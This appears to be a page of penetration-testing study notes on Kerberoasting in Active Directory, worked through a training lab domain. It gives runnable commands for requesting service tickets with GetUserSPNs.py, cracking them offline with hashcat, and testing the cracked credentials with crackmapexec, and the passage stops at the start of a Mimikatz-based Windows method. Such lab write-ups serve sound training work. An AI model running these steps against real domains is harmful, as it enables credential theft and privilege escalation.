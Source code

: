 # 🐕‍🦺 Kerberoasting

<figure><img src="../../../.gitbook/assets/image (1055).png" alt=""><figcaption></figcaption></figure>

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments

In order to kerberoast, we can use several tools like:

* Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
* A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
* From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts

It's good to know that we can perform this attack from plenty of positions in the network:

* From a non-domain joined Linux host using valid domain user credentials.
* From a domain-joined Linux host as root after retrieving the keytab file.
* From a domain-joined Windows host authenticated as a domain user.
* From a domain-joined Windows host with a shell in the context of a domain account.
* As SYSTEM on a domain-joined Windows host.
* From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

When we obtain a TGS ticket after this attack, we still need to crack the hash offline in order to get access to the account with valid credentials

## Kerberoasting - from Linux

**Listing SPN Accounts with GetUserSPNs.py**

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

We can now pull all TGS tickets for offline processing using the `-request` flag.

**Requesting all TGS Tickets**

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

**Requesting a Single TGS ticket**

We're going to try to pull user sqldev:

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

To go even quicker, we can redirect the TGS with the `-outputfile`

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

**Cracking the Ticket Offline with Hashcat**

Now we can attempt to crack the ticket offline using Hashcat hash mode `13100`.

```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

**Testing Authentication against a Domain Controller**

With the clear text password, we can try to authenticate with the domain

```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

### Practical example

_Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer._

So we're using the user forend, we previously got his password so we can use that to find SAMService's password

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService
```

<figure><img src="../../../.gitbook/assets/image (1056).png" alt=""><figcaption></figcaption></figure>

We can even go further by outputting the result to a file:

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService -outputfile sapshash
```

<figure><img src="../../../.gitbook/assets/image (1057).png" alt=""><figcaption></figcaption></figure>

Since the VM is outdated we take the hash on our local machine and fire up hashcat:

```
hashcat -m 13100 sapshash /usr/share/wordlists/rockyou.txt
```

And find the password

And with simple enumeration of users we found the answer to the question:

_What powerful local group on the Domain Controller is the SAPService user a member of?_

## Kerberoasting - from Windows

### Kerberoasting - Semi Manual method

For this task we'll use a [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241\(v=ws.11\)) binary to enumerate SPNs in the domain.

```
C:\htb> setspn.exe -Q */*
```

We will notice many different SPNs returned for the various hosts in the domain. We will focus on `user accounts` and ignore the computer accounts returned by the tool. Next, using PowerShell, we can request TGS tickets for an account in the shell above and load them into memory. Once they are loaded into memory, we can extract them using `Mimikatz`. Let's try this by targeting a single user:
